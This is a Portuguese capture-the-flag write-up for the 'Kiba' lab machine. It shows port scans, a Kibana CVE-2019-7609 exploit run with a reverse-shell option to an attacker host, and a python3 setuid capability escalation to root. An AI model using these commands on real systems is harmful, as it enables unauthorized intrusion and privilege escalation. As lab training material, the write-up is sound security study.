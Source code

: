 # Kiba

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.0.81
```
![image](https://github.com/lufffe/Writeups/assets/90646635/faf56563-dd08-4802-8e81-ac2e3b52315f)

![image](https://github.com/lufffe/Writeups/assets/90646635/53c0174f-da66-48aa-979b-0d43b8d7bdad)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80,5044,5601 10.10.0.81
```
![image](https://github.com/lufffe/Writeups/assets/90646635/402636d0-e7bb-4d61-8ddf-5a84c01d75ac)

* ### Verificando o que roda na porta 5601
![image](https://github.com/lufffe/Writeups/assets/90646635/64849b76-3d7b-4138-b1af-c92d4edf81c7)

* ### Procurando um exploit para o Kibana.
https://github.com/LandGrey/CVE-2019-7609

```bash
git clone <https://github.com/LandGrey/CVE-2019-7609.git
```

```bash
python CVE-2019-7609-kibana-rce.py
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6a686632-a740-41f8-9c38-0e54dfd637af)

* ### Pegando uma reverse shell pelo Kibana.
```bash
python2.7 CVE-2019-7609-kibana-rce.py -u http://10.10.0.81:5601/ -host IP -port 4455 --shell
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7ee14eb2-938b-41c8-b0b9-753c90c10c3c)

![image](https://github.com/lufffe/Writeups/assets/90646635/de86f28c-000c-43b9-acce-92466073cd29)

![image](https://github.com/lufffe/Writeups/assets/90646635/7f9a0979-003c-4ace-a803-6f6187d7aa8a)

* ### Flag User.
```bash
kiba@ubuntu:/home/kiba$ cat user.txt
```


```bash
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6d17ac7a-ce2d-49e6-ba5a-2c97bac35b26)

* ### GtFobins.
![image](https://github.com/lufffe/Writeups/assets/90646635/a9bf60f5-d3b8-4413-95f6-8e55f00ef0bf)

```bash
kiba@ubuntu:/home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
![image](https://github.com/lufffe/Writeups/assets/90646635/00ff7334-fbb6-4a8d-95b5-d7ea042e2e92)

* ### Flag Root.
```bash
cat /root/root.txt
```
